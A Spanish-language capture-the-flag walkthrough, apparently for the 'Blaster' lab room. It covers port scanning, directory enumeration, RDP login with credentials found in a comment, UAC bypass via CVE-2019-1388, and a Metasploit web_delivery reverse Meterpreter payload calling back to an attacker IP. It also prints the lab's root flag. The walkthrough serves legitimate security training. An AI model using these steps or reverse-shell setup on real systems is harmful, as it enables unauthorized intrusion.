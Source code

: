 # **Guía Paso a Paso: Explotación de Blaster**

1. Reconocimiento Inicial
El primer paso en la explotación de la máquina Blaster es realizar un escaneo con nmap para identificar los puertos abiertos.

Comando nmap:
```bash
nmap -Pn 10.10.54.54
```
![](Imagenes/1.png)

2. Acceso a la página web
Accedemos al servicio HTTP en el puerto 80, que nos lleva a una página web de un servidor IIS de Windows.

El sitio web tiene una interfaz de Internet Information Services (IIS) con múltiples lenguajes, mostrando información relacionada con el servidor y otras secciones.

![](Imagenes/2.png)

3. Enumeración de Directorios con Gobuster
El siguiente paso es enumerar directorios en la página web utilizando Gobuster.

Comando:
```bash
gobuster dir -u http://10.10.54.54/ -w /usr/share/dirb/wordlists/big.txt
```

![](Imagenes/3.png)

4. Acceso a la Página Retro
Al acceder al directorio /retro/ encontramos una página con temática retro, posiblemente indicando una pista o parte de la solución.

En la página encontramos una referencia a "Tron Arcade Cabinet" y otros elementos relacionados con la película Ready Player One.

![](Imagenes/4.png)

![](Imagenes/5.png)
5. Identificación de la Pista
En la página de Ready Player One, descubrimos una pista en los comentarios:

Comentario de Wade: Wade deja un comentario sobre cómo recordar la forma de escribir el nombre de su avatar, Parzival.
Esto nos proporciona una pista importante para el siguiente paso.

![](Imagenes/6.png)

6. Acceso a RDP (Escritorio Remoto)
El siguiente paso es realizar un intento de acceso al puerto 3389 mediante RDP (Remote Desktop Protocol) utilizando las credenciales que encontramos en los comentarios.

![](Imagenes/7.png)

Como acceder con RDP: Usamos Remmina para acceder al servidor con la IP y credenciales:

![](Imagenes/8.png)

7. Obtención de la bandera de usuario
Una vez dentro del escritorio remoto, navegamos por las carpetas del usuario y encontramos la bandera de usuario:

![](Imagenes/9.png)

Archivo: user.txt

![](Imagenes/10.png)

---

8. Investigación de la vulnerabilidad (CVE) A través de la enumeración, descubrí que el CVE relacionado con la vulnerabilidad era CVE-2019-1388, que afecta a servicios que ejecutan hhupd.

Captura:
![](Imagenes/11.png)

El archivo ejecutable hhupd se encuentra en el escritorio de la máquina víctima.

![](Imagenes/12.png)

9. Ejecución de hhupd y el User Account Control (UAC) Al ejecutar el archivo hhupd, el sistema solicitó privilegios de administrador mediante el UAC. 

![](Imagenes/13.png)

![](Imagenes/14.png)


Aqui nos abre el Internet Explorer 11, ahora lo que hariamos seria un `Control + S`. Ahora en la ruta de la carpeta ponemos cmd

![](Imagenes/15.png)

Ahora en la ruta de la carpeta ponemos cmd

![](Imagenes/16.png)

Nos abrira la cmd ya con todos los privilegos de Windows, como vemos en la imagen.

![](Imagenes/17.png)

**8. Exploiting el hhupd. Decidí explotar la vulnerabilidad de hhupd, y utilicé una herramienta como Metasploit para crear un payload reverso que me permitiría acceder a la máquina.

Comando en Metasploit:

```bash
use exploit/multi/script/web_delivery
```
![](Imagenes/19.png)

10. Configuración del Payload Utilicé el exploit adecuado para la vulnerabilidad y configuré las opciones necesarias en Metasploit:

```bash
set target 2
set lport 80
set lhost 10.21.128.154
set payload windows/meterpreter/reverse_http
```
![](Imagenes/20.png)

11. Ejecución del Exploit Una vez configurado todo, ejecuté el payload y esperé a que se estableciera una conexión reversa.

![](Imagenes/21.png)

12. Obtener el acceso remoto Después de ejecutar el payload con éxito, obtuve acceso a la máquina víctima con una sesión Meterpreter.

![](Imagenes/22.png)

![](Imagenes/23.png)

13. Elevación de privilegios Una vez dentro, utilicé el comando whoami para comprobar que tenía privilegios de NT AUTHORITY\SYSTEM, lo que indicaba que estaba ejecutando la sesión como un usuario privilegiado.

![](Imagenes/17.png)

15. Obtener la bandera de root Finalmente, accedí al archivo root.txt en el escritorio del usuario Administrator y obtuve la bandera de root.

Captura:

El contenido de root.txt: THM{COIN_OPERATED_EXPLOITATION}.
![](Imagenes/18.png)
